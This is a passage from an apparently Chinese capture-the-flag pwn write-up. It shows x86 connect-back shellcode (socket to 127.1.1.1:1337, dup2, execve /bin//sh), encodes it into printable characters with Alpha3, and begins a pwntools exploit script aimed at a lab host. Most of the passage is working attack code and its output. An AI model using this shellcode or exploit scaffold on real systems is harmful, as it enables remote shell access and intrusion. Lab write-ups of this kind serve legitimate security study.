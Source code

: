 ```python
sh += b'\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

print(sh)
```

运行结果

```sh
❯ python ./use.py
b'jfXj\x01[1\xd2RSj\x02\x89\xe1\xcd\x80\x92\xb0fh\x7f\x01\x01\x01fh\x059CfS\x89\xe1j\x10QR\x89\xe1C\xcd\x80j\x02Y\x87\xda\xb0?\xcd\x80Iy\xf9\xb0\x0bA\x89\xcaRh//shh/bin\x89\xe3\xcd\x80'
```

Alpha3工具使用 ( 这里我是将简单Alpha3封装了一下，你们使用时应该用 `python2 ALPHA3.py`​而不是 alpha3 )

```sh
echo -e -n "jfXj\x01[1\xd2RSj\x02\x89\xe1\xcd\x80\x92\xb0fh\x7f\x01\x01\x01fh\x059CfS\x89\xe1j\x10QR\x89\xe1C\xcd\x80j\x02Y\x87\xda\xb0?\xcd\x80Iy\xf9\xb0\x0bA\x89\xcaRh//shh/bin\x89\xe3\xcd\x80" > shellcode.bin
alpha3 x86 ascii mixedcase ecx --input=shellcode.bin > output
```

得到Alpha3可见字符化后的ShellCode

```sh
hffffk4diFkDqj02Dqk0D1AuEE2O0T2w0Z0U0i0F3r180c7o023p3A4K4s3p4A1n0X7L060n010T1k0u2j120R2x5M4R0Y1P0e2s4x4O0s4U4w2F020o4w4t5p2n3m3D0x2r3Y3U092K4x3h0b2Z7M0W0F2E1l1M0R001o3I3C384r0s
```

随后就可以构造Exp了

Exp.py

```sh
from pwn import *
import LibcSearcher

file = "./attachment"
elf = ELF(file)

context(arch=elf.arch,os='linux')

if args['DEBUG']:
    context.log_level = 'debug'


if args['REMOTE']:
    io = remote('192.168.202.151', 32768)
else:
    io = process(file)
    
    
if elf.arch == 'i386':
    B = 4
elif elf.arch == 'amd64':
    B = 8
else:
    print("PLS Input The Address Byte: ")
    B = int(input())
print("B=" +str(B))
    
sla = lambda ReceivedMessage,SendMessage :io.sendlineafter(ReceivedMessage,SendMessage)
sl = lambda SendMessage :io.sendline(SendMessage)
sa = lambda ReceivedMessage,SendMessage :io.sendafter(ReceivedMessage,SendMessage)
rcv = lambda ReceiveNumber, TimeOut=Timeout.default :io.recv(ReceiveNumber, TimeOut)
rcu = lambda ReceiveStopMessage, Drop=False, TimeOut=Timeout.default :io.recvuntil(ReceiveStopMessage,Drop,TimeOut)
```
